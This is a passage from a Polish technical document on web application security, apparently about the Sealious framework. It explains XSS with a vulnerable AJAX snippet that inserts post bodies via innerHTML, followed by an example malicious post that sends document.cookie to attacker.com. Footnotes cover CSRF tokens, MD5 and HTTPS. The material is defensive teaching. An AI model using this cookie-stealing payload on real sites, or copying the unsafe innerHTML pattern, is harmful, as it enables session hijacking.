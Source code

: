 Zabezpiecza to hasła użytkowników przed złamaniem w wypadku wycieku informacji z bazy danych.

## Cross-Site Scripting (XSS)

Ataki typu XSS wykorzystują interpreter HTML przeglądarki do uruchamiania arbitralnych skryptów, które mają pełen dostęp do danych sesyjnych użytkownika i mogą spowodować ich wyciek. Zapobieganie im nie należy do najtrudniejszych, ale podatności na XSS są wciąż bardzo powszechne.

### Przykłady ataków XSS w dużych aplikacjach

Do stron, na których odnaleziono podatność na atak przy użyciu XSS, należą [wg @xssed]:

* samsung.com
* fbi.com
* ups.com
* uk.playstation.com
* 9gag.com

### Przebieg ataku

Rozpatrzmy przebieg XSS na przykładzie webowego, opartego o AJAX^[Korzystanie z modelu AJAX w aplikacjach webowych często jest przyczyną podatności na XSS [@ajax_guide]---na szczęście często jesteśmy w stanie im w pełni zapobiec odpowiednio konfigurując wyłącznie backend aplikacji], interfejsu sieci społecznościowej. 

Kod pobierający najnowsze posty użytkowników może mieć postać:

```javascript
var post_container = document.getElementById("posts");
request.get("/newest_posts.php", function(posts){
    posts.forEach(function(post){
        var post_div = document.createElement("div");
        post_div.classList.add("user-post");
        post_div.innerHTML = post.body;
        post_container.appendChild(post_div);
    })
});
```

Następnie, jeżeli serwer nie zapobiega XSS, wystarczy, aby któryś z użytkowników rozpatrywanej aplikacji utworzył post o treści:

```html
<div>
Jestem złośliwym użytkownikiem
</div>
<script>
document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='
   + document.cookie
</script>
```

aby każdy z użytkowników, któremu wyświetli się post atakującego został przekierowany na złośliwą stronę, która przechwytuje id sesji---co umożliwia atakującemu podszycie się pod tego użytkownika.


[^ssl_breakable_footnotes]: Odpowiednio zainfekowane maszyny są w stanie umożliwić ataki typu Man-In-The-Middle nawet dla połączeń HTTPS [zob. @superfish_ssl]
[^md5_bad_przypisy]: m.in. [@md5_not_suitable_ms], [@md5_not_suitable]
[^co_to_kolizja]: "Kolizja" oznacza możliwość wygenerowania w realistycznym czasie ciągu znaków, dla którego dana funkcja hashująca przyjmuje wartość identyczną z zadanym hashem (np. skradzionym z bazy danych). 
[^channel_responsibility_footnote]: Sealious w obecnych odsłonach (wersja `0.6.21-stable` i wersja `0.7-alpha`, stan ze stycznia 2016) nie zawiera mechanizmu sesji---aktualna struktura naszego frameworka wymaga, aby to chipy typu *channel* implementowały swój mechanizm weryfikacji identyfikatora sesji. Części tej sekcji odnoszące się do protokołów `http`(`s`) i plików *cookies* tyczą się konkretnego pluginu do Sealiousa---`sealious-www-server`.
[^sha1_footnote]: Podany fragment kodu pochodzi z pliku `define/channel.www_server.js` z repozytorium `Sealious/sealious-www-server`.
[^yes_you_read_that_right]: Może się wydawać, że przechowywanie owego dodatkowego tokenu autoryzacji w pliku cookie niweczy nasze zamiary--przecież sednem ataku CSRF jest fakt, że id sesji trzymane w cookie jest zawsze dopisywane przez przeglądarkę do zapytań HTTP wysłanych na serwer naszej aplikacji. Jak dodanie drugiego tokenu do pliku cookies ma nas obronić przed tym atakiem? Otóż serwer w trakcie sprawdzania obecności tokenu w zapytaniu nie będzie go szukał w nagłówkach `Cookie`---będzie oczekiwał obecności nagłówka `csrfToken`, niezależnego od `Cookie`, i to jego wartość będzie porównywał z tokenem przechowywanym w zmiennej sesyjnej. Brak tego nagłówka lub zła jego wartość będą się wiązać z odmową dostępu. W przeglądarce internetowej tylko skrypt pochodzący z danej domeny ma dostęp do jej pliku cookie na komputerze użytkownika, więc tylko taki skrypt jest w stanie dopisać ten token do *nagłówka* HTTP, co skutecznie zapobiega CSRF.